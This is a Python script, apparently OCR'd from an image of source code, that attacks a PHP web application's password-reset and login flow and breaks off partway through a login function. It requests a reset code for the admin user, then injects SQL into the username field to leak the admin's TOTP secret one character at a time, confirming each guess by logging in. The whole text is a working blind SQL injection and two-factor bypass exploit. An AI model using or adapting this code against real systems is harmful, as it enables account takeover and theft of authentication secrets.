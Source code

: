 ```python
def send_otp_request(data, endpoint):
    global cookies
    response = requests.post(url_main + endpoint, headers=headers, cookies=cookies, data=data)

    if "Set-Cookie" in response.headers:
        new_session = extract_phpsessid(response.headers["Set-Cookie"])
        if new_session:
            cookies["PHPSESSID"] = new_session
            print(f"Zaktualizowano PHPSESSID: {new_session}")

    return response

def extract_phpsessid(set_cookie_header):
    match = re.search(r"PHPSESSID=([a-zA-Z0-9]+);", set_cookie_header)
    if match:
        return match.group(1)
    return None

def extract_reset_code(response_text):
    match = re.search(r"Reset code (\w+) uses custom prefix", response_text)
    if match:
        return match.group(1)
    return None

def first_step(payload, offset):
    data = {
        "form_name": "reset",
        "username": "admin",
        "is_tenant": "1"
    }
    response = send_otp_request(data, "/reset.php")
    code_reset = extract_reset_code(response.text)

    print(code_reset)
    ##############################################################################################################3
    # sys.exit()
    return new_password(code_reset, payload, offset)

def new_password(code_reset, payload, offset):
    data = {
        "form_name": "set_new_password",
        "code": code_reset,
        "username": f"admin' AND SUBSTRING(totp_secret, {offset}, 1) == '{payload}",
        "password": code_reset,
        "password_confirm": code_reset
    }
    print(f"admin' AND SUBSTRING(totp_secret, {offset}, 1) == '{payload}")
    response = send_otp_request(data, "/set_new_password.php")
    print(f"off: {offset} Payl: {payload}")
    
    if login_to(code_reset) == True:
        global key_
        print(payload)
        key_ += payload
        return True


def login_to(new_password):
    data = {
        "form_name": "login",
        "username": "admin",
        "password": new_password
```